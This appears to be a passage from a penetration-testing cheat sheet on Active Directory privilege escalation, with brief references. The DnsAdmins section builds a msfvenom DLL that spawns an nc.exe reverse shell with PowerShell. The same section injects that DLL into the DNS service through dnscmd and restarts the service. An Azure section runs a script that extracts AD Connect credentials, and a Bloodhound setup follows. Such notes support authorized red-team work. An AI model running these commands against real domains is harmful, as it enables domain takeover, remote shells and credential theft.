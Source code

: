 ### DnsAdmins

```
root@kali:$ msfvenom -p windows/x64/exec cmd='c:\users\snovvcrash\documents\nc.exe 127.0.0.1 1337 -e powershell' -f dll > inject.dll
PS > dnscmd.exe <HOSTNAME> /Config /ServerLevelPluginDll c:\users\snovvcrash\desktop\i.dll
PS > Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
PS > (sc.exe \\<HOSTNAME> stop dns) -and (sc.exe \\<HOSTNAME> start dns)

PS > reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
PS > (sc.exe \\<HOSTNAME> stop dns) -and (sc.exe \\<HOSTNAME> start dns)
```

1. [medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
2. [www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)
3. [ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
4. [adsecurity.org/?p=4064](https://adsecurity.org/?p=4064)



### Azure Admins

```
PS > . ./Azure-ADConnect.ps1
PS > Azure-ADConnect -server 127.0.0.1 -db ADSync
```

* [github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1)
* [blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)



### Bloodhound

Setup:

```
* Instal neo4j from [1]

root@kali:$ neo4j console
...change default password at localhost:7474...

root@kali:$ neo4j start
root@kali:$ git clone https://github.com/BloodHoundAD/BloodHound
root@kali:$ wget [2]
root@kali:$ unzip BloodHound-linux-x64.zip && rm BloodHound-linux-x64.zip && cd BloodHound-linux-x64
root@kali:$ ./BloodHound --no-sandbox
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)